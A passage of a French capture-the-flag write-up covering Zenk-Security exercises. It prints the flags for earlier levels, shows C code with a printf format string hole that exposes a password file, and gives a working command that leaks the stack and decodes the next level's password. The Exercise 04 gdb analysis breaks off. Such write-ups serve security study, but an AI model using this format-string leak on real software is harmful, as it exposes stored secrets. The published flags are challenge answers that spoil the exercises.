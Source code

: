Débordement classique.

Epreuve de Zenk-Security donc pas de correction publique.

Flag : `3MnmpyMyVmUZKX9KXOXjHpGdytKrZ1dd`.


## Exercice 03

```c
#include <stdio.h>

int main(int argc, char *argv[]){
        FILE *secret = fopen("/home/ex04/.passwd", "rt");
        char buffer[33];
        fgets(buffer, sizeof(buffer), secret);
        printf(argv[1]);
        fclose(secret);
        return 0;
}
```

On peut faire leaker la stack et il se trouve que le contenu du buffer
(soit le contenu du fichier `.passwd` du niveau suivant) se trouve
tout proche de nous !

Il faut juste découper son hexa correctement et convertir vers de l'ASCII.

Voyez avec Bryan : 

```
./ex03 `python -c "print('%08x'*14)"` | python2 -c "import sys, binascii; a=sys.stdin.read(); b=''.join([binascii.unhexlify(a[i+6:i+8]+a[i+4:i+6]+a[i+2:i+4]+a[i:i+2]) for i in range(0,len(a),8)]); print(b)"
�UVXVUV����P����ksGO0lN8uNMFyJupNtFersoqwLrYPs6R
```

Wow.

Soit `ksGO0lN8uNMFyJupNtFersoqwLrYPs6R`.


## Exercice 04

Pas de sources cette fois...

Le programme prend un fichier en paramètre. Regardons un peu le code...

```
ex04@debian:~$ gdb ./ex04
gdb-peda$ set print asm-demangle on
gdb-peda$ disas main
[...]
End of assembler dump.
gdb-peda$
```

Bref :
